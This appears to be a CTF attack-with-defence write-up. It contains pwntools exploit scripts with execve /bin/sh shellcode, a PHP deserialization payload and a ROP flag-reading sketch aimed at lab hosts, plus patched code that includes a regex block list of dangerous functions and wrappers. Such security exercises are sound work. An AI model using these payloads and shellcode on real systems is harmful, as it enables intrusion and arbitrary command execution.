

#Break

## web

###ez_date

反序列化，签到题，想复杂了（x

```php
<?php
	class date{
		public $a = 1;
		public $b = '1';
		public $file = "\/f\\l\\a\\g.\\t\\x\\t";
	}
	$p = new date();
	echo base64_encode(serialize($p));
?>
```



##pwn

### magic

```python
#https://github.com/matrix1001/welpwn
from PwnContext import *
from requests import put


try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')
# 22 bytes
shellcode_32 = """push 0x68732f        # 0x68732f --> hs/     little endian
	push 0x6e69622f      # 0x6e69622f --> nib/  little endian
	mov ebx, esp
	xor edx, edx
	xor ecx, ecx
	mov al, 0xb          # al为eax的低8位
	int 0x80"""
# 22 bytes
shellcode_64 = """mov rbx, 0x68732f6e69622f  # 0x68732f6e69622f --> hs/nib/  little endian
    push rbx
    push rsp 
    pop rdi
    xor esi, esi               # rsi低32位
    xor edx, edx               # rdx低32位
    push 0x3b
    pop rax
    syscall"""

# functions for quick script
s       = lambda data               :ctx.send(data)        #in case that data is an int
sa      = lambda delim,data         :ctx.sendafter(delim, data) 
sl      = lambda data               :ctx.sendline(data) 
sla     = lambda delim,data         :ctx.sendlineafter(delim, data) 
r       = lambda numb=4096, timeout=0.2         :ctx.recv(numb, timeout=timeout)
ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
rl      = lambda                    :ctx.recvline()
irt     = lambda                    :ctx.interactive()
rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
leak1    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
seg_addr = lambda elf, seg : elf.get_section_by_name(seg).header.sh_addr

def main():
    ctx.binary = '/root/Desktop/pwn/competition/awp/attachment/magic2'
    elf = ctx.binary
    ctx.remote = ('172.1.17.2', 8888)
    context.log_level = 'debug'
    # ctx.debug_remote_libc = True
    if args.G:
        rs('gdb', gdbscript='b *0x0804860B\n b *0x08048754\nc')
    elif args.R:
        rs('remote')
    else:
        rs()

    try:
        ru('at you say\n')
        
        # say = p8(0xba) + p8(240) * 27
        say = p8(66) + p8(120) * 55
        sl(say)

        ru('can do\n')

        offset = int(-0x30 / 0x4)
        plus = 0xa75-0xB30
        

        sl(f'{offset} {plus}')
        # r()
        # sl('%11$p')
        # canary=int(rl().decode(), 16)
        # ru('prompt> ')
        # sl('%12$p')
        # stack=int(rl().decode(),16)-48+0x40
        # pop_rdi = 0x0000000000400903
        # sys = 0x400796
        # payload = flat(['quit', 'a'*0x14, canary, 0, pop_rdi, stack, sys, 'cat /home/flag'])
        # sl(payload)

        irt()
        return
    except EOFError as e:
        ctx.close()
        raise e
main()
```

### minicode

```python
#https://github.com/matrix1001/welpwn
from PwnContext import *
from requests import put


try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')
# 22 bytes
shellcode_32 = """push 0x68732f        # 0x68732f --> hs/     little endian
	push 0x6e69622f      # 0x6e69622f --> nib/  little endian
	mov ebx, esp
	xor edx, edx
	xor ecx, ecx
	mov al, 0xb          # al为eax的低8位
	int 0x80"""
# 22 bytes
shellcode_64 = """mov rbx, 0x68732f6e69622f  # 0x68732f6e69622f --> hs/nib/  little endian
    push rbx
    push rsp 
    pop rdi
    xor esi, esi               # rsi低32位
    xor edx, edx               # rdx低32位
    push 0x3b
    pop rax
    syscall"""

# functions for quick script
s       = lambda data               :ctx.send(data)        #in case that data is an int
sa      = lambda delim,data         :ctx.sendafter(delim, data) 
sl      = lambda data               :ctx.sendline(data) 
sla     = lambda delim,data         :ctx.sendlineafter(delim, data) 
r       = lambda numb=4096, timeout=0.2         :ctx.recv(numb, timeout=timeout)
ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
rl      = lambda                    :ctx.recvline()
irt     = lambda                    :ctx.interactive()
rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
leak1    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
seg_addr = lambda elf, seg : elf.get_section_by_name(seg).header.sh_addr

def main():
    ctx.binary = '/root/Desktop/pwn/competition/awp/minicode'
    elf = ctx.binary
    ctx.remote = ('172.1.17.10', 8888)
    context.log_level = 'debug'
    # ctx.debug_remote_libc = True
    if args.G:
        rs('gdb', gdbscript='b *0x0804860B\n b *0x08048754\nc')
    elif args.R:
        rs('remote')
    else:
        rs()

    try:
        ru('code:\n')
        print(shellcraft.sh())
        shellcode = asm(shellcraft.sh())
        sl(shellcode)
        # sl('%11$p')
        # canary=int(rl().decode(), 16)
        # ru('prompt> ')
        # sl('%12$p')
        # stack=int(rl().decode(),16)-48+0x40
        # pop_rdi = 0x0000000000400903
        # sys = 0x400796
        # payload = flat(['quit', 'a'*0x14, canary, 0, pop_rdi, stack, sys, 'cat /home/flag'])
        # sl(payload)

        irt()
        return
    except EOFError as e:
        ctx.close()
        raise e
main()
```

#Fix

##web

### filechecker

index.php 无脑加黑名单

```php
<div>
    <form action="file.php" method="post" enctype="multipart/form-data">
        <label for="file">filename:</label>
        <input type="file" name="file" id="file"><br>
        <input type="submit" name="submit" value="submit">
</div>
<?php
include "file.php";
include "class.php";
echo "goto filecheck.php";
$filepath=$_POST['filepath'];
if(preg_match('/^([a-z0-9]|a|eval|dl|ls|p|escape|er|str|cat|flag|file|ay|or|ftp|dict|\.\.|h|w|exec|s|open|php|input|ftp|zlib|data|glob|phar|ssh2|compress.bzip2|compress.zlib|rar|ogg|expect|find|filter|c|p|a|proc|dir|regexp|n|alter|load|grep|o|file|t|w|insert|sort|h|sy|\.\.|array|sh|touch|e|php)(.|\\s)*|(.|\\s)*(file|data|\.\.)(.|\\s)*/i',$filepath)){
    echo "<br>";
    die("Don't give me dangerous code");
}
else
{
if(empty($filepath)){
    die();
}
else{
    $mime= mime_content_type($filepath);
    echo "Image format is".$mime;
}
}
```

class.php 把危险函数file_get_contents()和system()都ban了

```php
<?php

class file
{
    public $name;
    public $data;
    public $ou;
    public function __wakeup()
    {
        // TODO: Implement __wakeup() method.
        $this->data='you need do something';
    }
    public function __call($name, $arguments)
    {
//        phpinfo();
        return $this->ou->b='78ty7badh2';
    }

    public function __destruct()
    {
        //if (@file_get_contents($this->data) == "Hellociscccn") {
        //    $this->name->function();
        //}


    }
}

class data
{
    public $a;
    public $oi;

    public function __set($name, $value)
    {
        // TODO: Implement __set() method.
        $this->yyyou();
        return "hhh";
    }

    public function yyyou()
    {
        //system($this->oi);
    }
}
```

### pysym

第一轮以为要保留正常业务，第二轮直接硬改，限制长度最小，system不运行有效内容。

```python
from flask import Flask, render_template, request, send_from_directory
import os
import random
import re
import string
app = Flask(__name__)
app.config['UPLOAD_FOLDER']='uploads'
@app.route('/', methods=['GET'])
def index():
    return render_template('index.html')
@app.route('/',methods=['POST'])
def POST():
    if 'file' not in request.files:
        return 'No file uploaded.'
    file = request.files['file']
    if file.content_length > 2:
        return 'file too lager'
    path = ''.join(random.choices(string.hexdigits, k=16))
    directory = os.path.join(app.config['UPLOAD_FOLDER'], path)
    os.makedirs(directory, mode=0o755, exist_ok=True)
    if len(re.findall(r'[!@#$%^&*(){}|":>?</,;\'\[\]\\]', file.filename)) != 0:
        return 'something wrong in extracting'
    savepath=os.path.join(directory, file.filename)
    file.save(savepath)
    try:
     os.system("echo 'hhhh'")
    except:
        return 'something wrong in extracting'

    links = []
    linkkk = False
    dirett = False
    for root, dirs, files in os.walk(directory):
        for name in files:
            extractedfile =os.path.join(root, name)
            if os.path.islink(extractedfile):
                os.remove(extractedfile)
                linkkk = True
            elif  os.path.isdir(path) : dirett = True
            else: links.append(extractedfile)
    if linkkk: return 'no symlink'
    if dirett: return 'no directory'
    return render_template('index.html',links=links)
@app.route("/uploads/<path:path>",methods=['GET'])
def download(path):
    filepath = os.path.join(app.config['UPLOAD_FOLDER'], path)
    if not os.path.isfile(filepath):
        return '404', 404
    data = open(filepath, 'r').read()
    if 'flag{75b5493cd8}' in data:
        return '404', 404
    return send_from_directory(app.config['UPLOAD_FOLDER'], path)
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=1337)
```

## pwn

### minicode

0x16改成0x15

```c
   ;
  if ( i > 0x15 )
  {
    puts("no! it's unsafe.");
  }
  else
  {
    puts("yes! safe code.");
    ((void (*)(void))addr)();
  }
```

### car_factory

400ed5中uaf了

把free去掉

```c
                               loc_400FC6:                             ; CODE XREF: sub_400ED5+E5↑j
.text:0000000000400FC6 48 8B 45 A8                   mov     rax, [rbp+var_58]
.text:0000000000400FCA 48 8B 55 B8                   mov     rdx, [rbp+var_48]
.text:0000000000400FCE 48 89 50 18                   mov     [rax+18h], rdx
.text:0000000000400FD2 48 8B 45 A8                   mov     rax, [rbp+var_58]
.text:0000000000400FD6 90                            nop
.text:0000000000400FD7 90                            nop
.text:0000000000400FD8 90                            nop
.text:0000000000400FD9 90                            nop
.text:0000000000400FDA 90                            nop                                     ; ptr
.text:0000000000400FDB 90                            nop
.text:0000000000400FDC 90                            nop
.text:0000000000400FDD 90                            nop
.text:0000000000400FDE 90                            nop
.text:0000000000400FDF 90                            nop
.text:0000000000400FE0 90                            nop
.text:0000000000400FE1 90                            nop
.text:0000000000400FE2 BF 93 1D 40 00                mov     edi, offset aEnginemanufact     ; "engineManufacturer"
.text:0000000000400FE7 E8 A4 F8 FF FF                call    _puts
.text:0000000000400FE7
.text:0000000000400FEC 48 8B 45 A8                   mov     rax, [rbp+var_58]
.text:0000000000400FF0 8B 40 14                      mov     eax, [rax+14h]
.text:0000000000400FF3 89 C2                         mov     edx, eax                        ; nbytes
.text:0000000000400FF5 48 8B 45 A8                   mov     rax, [rbp+var_58]
.text:0000000000400FF9 48 8B 40 18                   mov     rax, [rax+18h]
.text:0000000000400FFD 48 89 C6                      mov     rsi, rax                        ; buf
.text:0000000000401000 BF 00 00 00 00                mov     edi, 0                          ; fd
.text:0000000000401005 E8 E6 F8 FF FF                call    _read
```

